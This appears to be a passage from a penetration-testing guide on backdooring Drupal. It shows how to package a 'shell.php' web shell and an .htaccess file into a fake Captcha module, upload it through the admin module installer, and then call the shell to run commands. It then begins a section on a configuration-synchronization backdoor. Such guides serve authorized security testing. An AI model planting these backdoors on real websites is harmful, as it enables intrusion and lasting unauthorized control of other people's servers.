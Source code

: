 ```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

* The configuration above will apply rules for the / folder when we request a file in /modules. Copy both of these files to the captcha folder and create an archive.

```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```

* Assuming we have **administrative access** to the website, click on **`Manage`** and then **`Extend`** on the sidebar. Next, click on the **`+ Install new module`** button, and we will be taken to the install page, such as `http://drupal-site.local/admin/modules/install` Browse to the backdoored Captcha archive and click **`Install`**.
* Once the installation succeeds, browse to **`/modules/captcha/shell.php`** to execute commands.

## Backdooring Drupal with Configuration synchronization <a href="#backdooring-drupal" id="backdooring-drupal"></a>

**Post shared by** [**Coiffeur0x90**](https://twitter.com/Coiffeur0x90)

### Part 1 (activation of _Media_ and _Media Library_)

In the _Extend_ menu (/admin/modules), you can activate what appear to be plugins already installed. By default, plugins _Media_ and _Media Library_ don’t appear to be activated, so let’s activate them.

Before activation:

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

After activation:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
